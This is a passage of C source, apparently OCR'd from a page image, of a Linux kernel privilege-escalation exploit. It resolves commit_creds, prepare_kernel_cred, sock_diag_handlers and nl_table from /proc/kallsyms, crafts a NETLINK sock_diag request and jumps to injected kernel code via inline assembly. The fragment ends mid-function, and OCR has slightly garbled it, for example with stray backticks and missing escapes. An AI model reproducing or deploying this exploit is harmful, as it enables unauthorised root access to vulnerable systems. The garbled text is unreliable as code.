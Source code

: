```
`{`
    asm volatile (
        "mov $kernel_code, %raxn"
        "call *%raxn"
    );
`}`
unsigned long
get_symbol(char *name)
`{`
    FILE *f;
    unsigned long addr;
    char dummy, sym[512];
    int ret = 0;

    f = fopen("/proc/kallsyms", "r");
    if (!f) `{`
        return 0;
    `}`

    while (ret != EOF) `{`
        ret = fscanf(f, "%p %c %sn", (void **) &amp;addr, &amp;dummy, sym);
        if (ret == 0) `{`
            fscanf(f, "%sn", sym);
            continue;
        `}`
        if (!strcmp(name, sym)) `{`
            printf("[+] resolved symbol %s to %pn", name, (void *) addr);
            fclose(f);
            return addr;
        `}`
    `}`
    fclose(f);
    return 0;
`}`
int main(int argc, char*argv[])
`{`
    int fd;
    unsigned family;
    struct `{`
        struct nlmsghdr nlh;
        struct unix_diag_req r;
    `}` req;
    char buf[8192];
    if ((fd = socket(AF_NETLINK, SOCK_RAW, NETLINK_SOCK_DIAG)) &lt; 0)`{`
        printf("Can't create sock diag socketn");
        return -1;
    `}`
    memset(&amp;req, 0, sizeof(req));
    req.nlh.nlmsg_len = sizeof(req);
    req.nlh.nlmsg_type = SOCK_DIAG_BY_FAMILY;
    req.nlh.nlmsg_flags = NLM_F_ROOT|NLM_F_MATCH|NLM_F_REQUEST;
    req.nlh.nlmsg_seq = 123456;
    //req.r.sdiag_family = 99;
    req.r.udiag_states = -1;
    req.r.udiag_show = UDIAG_SHOW_NAME | UDIAG_SHOW_PEER | UDIAG_SHOW_RQLEN;

       commit_creds = (_commit_creds) get_symbol("commit_creds");
      prepare_kernel_cred = (_prepare_kernel_cred) get_symbol("prepare_kernel_cred");
      sock_diag_handlers = get_symbol("sock_diag_handlers");
      nl_table = get_symbol("nl_table");

      if(!prepare_kernel_cred || !commit_creds || !sock_diag_handlers || !nl_table)`{`
        printf("some symbols are not available!n");
```